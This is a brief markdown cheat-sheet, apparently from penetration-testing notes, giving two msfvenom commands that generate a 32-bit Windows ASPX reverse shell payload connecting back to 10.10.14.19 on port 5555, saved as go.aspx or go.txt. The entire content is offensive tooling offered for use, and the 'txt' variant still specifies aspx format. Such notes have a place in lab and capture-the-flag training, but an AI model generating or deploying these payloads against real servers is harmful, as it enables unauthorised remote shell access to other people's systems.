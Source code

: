 ## MSFVENOM payload generation commands

### msfvenom 32 bit ASPX reverse shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=5555 --platform windows -a x86 -e generic/none -f aspx -o go.aspx
```

If we want output in txt format, then use below command

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=5555 --platform windows -a x86 -e generic/none -f aspx -o go.txt
```

